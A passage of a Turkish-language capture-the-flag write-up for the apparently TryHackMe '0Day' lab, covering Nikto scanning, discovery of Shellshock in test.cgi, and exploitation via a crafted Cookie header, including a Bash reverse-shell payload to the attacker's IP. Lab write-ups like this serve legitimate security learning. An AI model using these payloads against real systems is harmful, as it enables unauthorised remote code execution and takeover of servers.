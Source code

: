 Backup sayfasında ssh private anahtarı yer almaktadır. Ama malesef anahtar encrypt edilmiş halde olduğundan decrypt edilmeden kullanıamaz. Şimdilik keşif aşamasında devam edilir.

{{< image src="/images/thm/0Day/backuppage.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

***/cgi-bin*** dizini dikkatleri celbetmektedir. Nikto ile web sayfası taranır. 

```txt
nikto --url http://10.10.119.248/ 
```
Tarama sonucunda ***shellshock*** zafiyeti tespit edilmiştir. *Zafiyet kısaca hedef sistemde web sayfaları tarafından gönderilen shell komutlarını çalıştırmayı sağlamaktadır. (GNU Bash Remote Code Execution Güvenlik Açığı)*

{{< image src="/images/thm/0Day/nikto.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

Burada zafiyete sebep olan test.cgi dosyası burpsuite aracı kullanılarak ilk etapta test edilir.

{{< image src="/images/thm/0Day/shellshock1.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

Görüldüğü üzere yapılan isteğe "hello Word" cevabı döndürmektedir. Zafiyet http başlığındaki cookie, useragent gibi parametler manipüle edilerek sömürülebilir. Burada cookie bilgisi kullanılarak zafiyet sömürülmektedir.

Http başlığına Cookie bilgisi eklenerek test edilir. 
```txt
Cookie: () { :;}; echo;echo "test"
```

{{< image src="/images/thm/0Day/shellshock2.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}


## 2. Erişim Sağlanması

Hedef sistemde kod çalıştırılabildiği tespit edilmektedir. Reverse shell bağlantısını sağlayacak shell komutu cookie bilgisine eklenir.

```txt
Cookie: () { :;}; echo; /bin/bash -i >& /dev/tcp/10.9.62.67/4444 0>&1
```

{{< image src="/images/thm/0Day/shellshock3.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

Nc ile dinlenen porta terminal bağlantısı gerçekleşir.

{{< image src="/images/thm/0Day/reverseshell.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

/home dizini altında yer alan kullanıcı dizinleri kontrol edilir. Ryan dizini altında user.txt dosyası okunur.

{{< image src="/images/thm/0Day/userflag.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

## 3. Yetki Yükseltme
